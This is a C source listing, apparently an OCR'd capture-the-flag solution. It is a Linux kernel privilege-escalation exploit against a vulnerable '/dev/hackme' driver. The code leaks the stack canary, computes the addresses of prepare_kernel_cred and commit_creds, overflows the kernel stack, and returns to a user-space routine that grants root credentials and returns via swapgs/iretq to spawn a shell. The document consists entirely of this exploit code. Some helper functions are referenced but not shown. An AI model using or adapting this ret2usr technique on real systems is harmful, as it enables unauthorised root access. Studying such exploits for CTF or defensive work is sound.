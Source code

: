 ```c

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}

size_t user_rip = (size_t)shell;

void get_shell(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;" //prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, commit_creds;" //commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  0x140;
    int i = 0x10;

    save_status();
    
    int fd = open("/dev/hackme" , 2);

    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];
    set_offset();

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = (size_t)get_shell;

    write(fd , rop , 0x80 + 0x100 );

}
```